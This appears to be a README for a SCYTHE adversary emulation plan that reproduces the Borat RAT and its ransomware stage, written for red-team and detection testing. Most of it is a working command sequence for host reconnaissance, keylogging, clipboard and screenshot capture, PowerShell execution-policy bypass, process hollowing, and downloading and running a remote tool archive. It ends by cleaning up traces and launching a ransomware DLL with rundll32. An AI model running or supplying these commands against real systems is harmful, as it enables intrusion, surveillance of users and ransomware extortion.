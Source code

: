 # Borat RAT - Adversary Emulation Plan

This threat was created by Randy Pargman from BinaryDefense based on the this threat intelligence from March 31, 2022: https://blog.cyble.com/2022/03/31/deep-dive-analysis-borat-rat/

## Automated Adversary Emulation with SCYTHE
This is a multi-stage threat that requires multiple SCYTHE campaigns for end-to-end execution. The breakout is the Borat RAT as stage 1 and the ransomware as stage 2.
### Borat RAT - Stage 1
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under BoratRAT/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/
4. Create a new campaign `BoratRAT` with HTTPS.
5. Import from Existing Threat: BoratRAT
6. Launch the Campaign

### Borat Ransomware - Stage 2
1. Create a new campaign `BoratRansomware` with HTTPS.
2. Select ransomware TTPs.
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `entrypoint`
5. Save the DLL as `Ransomware.dll`
6. Upload the `Ransomware.dll` to the VFS under VFS:/shared/threats/

## Manual Adversary Emulation with SCYTHE
This is a multi-stage attack leveraging multiple payloads and execution that perform different TTPs. Manual emulation steps are below.

### Borat RAT - Stage 1
```
loader --load run
run cmd /c "echo ####System Info#### & systeminfo & echo ####System Vesion#### & ver & echo ####Host Name#### & hostname & echo ####Environment Variable##### & set & echo ####Logical Disk##### & wmic logicaldisk get caption,description,providername & echo ####User Info#### & net user & echo ####Online User#### & query user & echo ####Local Group#### & net localgroup & echo ####Administrators### & net localgroup administrators & echo ####Guest User#### & net user guest & echo ####Administrator User Info#### & net user administrator & echo ####Startup Info#### & wmic startup get caption,command & echo ####Tasklist#### & tasklist /svc & echo ####Ipcofig#### & ipconfig /all & echo ####Hosts#### & type C:\WINDOWS\System32\drivers\etc\hosts & echo ####Route Table#### & route print & echo ####Arp Info#### & arp -a & echo ####Netstat#### & netstat -ano & echo ####Service Info#### & sc query type= service state= all & echo ####FirewallInfo#### & netsh firewall show state & netsh firewall show config"
loader --load keylogger
keylogger --start
delay --time 300
keylogger --current
keylogger --stop
loader --load clipboard
clipboard
loader --load printscr
printscr --window Desktop
delay --time 180
clipboard
printscr --window Desktop
run cmd.exe /c set
run wmic logicaldisk get caption,description,providername
run net user
run net user administrator
run wmic startup get caption,command
run tasklist /svc
run ipconfig /all
run cmd.exe /c type C:\WINDOWS\System32\drivers\etc\hosts
run route print
run arp -a
run netstat -ano
run sc query type= service state= all
run cmd.exe /c netsh firewall show state & netsh firewall show config
loader --load downloader
loader --load file
loader --load upsh
downloader --src VFS:/shared/Start-Hollow.ps1 --dest %USERPROFILE%/Start-Hollow.ps1
run powershell.exe Set-ExecutionPolicy Bypass -Scope Process -Force ; Invoke-Command -ScriptBlock {. $env:userprofile\Start-Hollow.ps1; $ppid="Get-Process explorer | select -expand id"; Start-Hollow -Sponsor "C:\Windows\System32\calc.exe" -Hollow "C:\Windows\System32\cmd.exe" -ParentPID $ppid -Verbose}
upsh --cmd "Invoke-Command -ScriptBlock {Stop-Process -Name "calc" -ErrorAction Ignore; }"
upsh --cmd "Invoke-Command -ScriptBlock { Invoke-WebRequest "https://github.com/mitre-attack/attack-arsenal/raw/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/Modified-SysInternalsSuite.zip" -OutFile "$env:TEMP\Modified-SysInternalsSuite.zip"; Expand-Archive $env:TEMP\Modified-SysInternalsSuite.zip $env:TEMP\sysinternals -Force; Remove-Item $env:TEMP\Modified-SysInternalsSuite.zip -Force}"
upsh --cmd "if (Test-Path $env:TEMP\SysInternals) {echo 1} else {echo 0}"
upsh --cmd "Invoke-Command -ScriptBlock {Set-Location -path "$env:TEMP\Sysinternals";; ./accesschk.exe -accepteula .;}"
run powershell del $env:TEMP\Sysinternals -Force -Recurse -ErrorAction Ignore
run powershell.exe del $env:userprofile/Start-Hollow.ps1
downloader --src VFS:/shared/threats/Ransomware.dll --dest %TEMP%/Ransomware.dll
run powershell.exe rundll32.exe "%TEMP%/Ransomware.dll",entrypoint
controller --shutdown
```
